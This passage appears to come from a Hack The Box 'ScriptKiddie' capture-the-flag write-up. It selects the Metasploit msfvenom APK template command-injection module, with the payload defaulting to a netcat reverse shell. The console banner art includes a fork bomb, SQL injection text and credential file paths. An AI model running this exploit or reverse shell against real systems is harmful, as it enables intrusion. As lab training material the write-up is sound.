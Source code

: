 
Our guess is that this path could work:

https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

We generate a "template" with `msfconsole`:

```
root@kali:/opt/htb/ScriptKiddie# msfconsole

                                              `:oDFo:`
                                           ./ymM0dayMmy/.
                                        -+dHJ5aGFyZGVyIQ==+-
                                    `:sm⏣~~Destroy.No.Data~~s:`
                                 -+h2~~Maintain.No.Persistence~~h+-
                             `:odNo2~~Above.All.Else.Do.No.Harm~~Ndo:`
                          ./etc/shadow.0days-Data'%20OR%201=1--.No.0MN8'/.
                       -++SecKCoin++e.AMd`       `.-://///+hbove.913.ElsMNh+-
                      -~/.ssh/id_rsa.Des-                  `htN01UserWroteMe!-
                      :dopeAW.No<nano>o                     :is:TЯiKC.sudo-.A:
                      :we're.all.alike'`                     The.PFYroy.No.D7:
                      :PLACEDRINKHERE!:                      yxp_cmdshell.Ab0:
                      :msf>exploit -j.                       :Ns.BOB&ALICEes7:
                      :---srwxrwx:-.`                        `MS146.52.No.Per:
                      :<script>.Ac816/                        sENbove3101.404:
                      :NT_AUTHORITY.Do                        `T:/shSYSTEM-.N:
                      :09.14.2011.raid                       /STFU|wall.No.Pr:
                      :hevnsntSurb025N.                      dNVRGOING2GIVUUP:
                      :#OUTHOUSE-  -s:                       /corykennedyData:
                      :$nmap -oS                              SSo.6178306Ence:
                      :Awsm.da:                            /shMTl#beats3o.No.:
                      :Ring0:                             `dDestRoyREXKC3ta/M:
                      :23d:                               sSETEC.ASTRONOMYist:
                       /-                        /yo-    .ence.N:(){ :|: & };:
                                                 `:Shall.We.Play.A.Game?tron/
                                                 ```-ooy.if1ghtf0r+ehUser5`
                                               ..th3.H1V3.U2VjRFNN.jMh+.`
                                              `MjM~~WE.ARE.se~~MMjMs
                                               +~KANSAS.CITY's~-`
                                                J~HAKCERS~./.`
                                                .esc:wq!:`
                                                 +++ATH`
                                                  `


       =[ metasploit v6.0.18-dev                          ]
+ -- --=[ 2081 exploits - 1124 auxiliary - 352 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Use the resource command to run
commands from a file

[*] Starting persistent handler(s)...
msf6 >
msf6 >
msf6 > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
```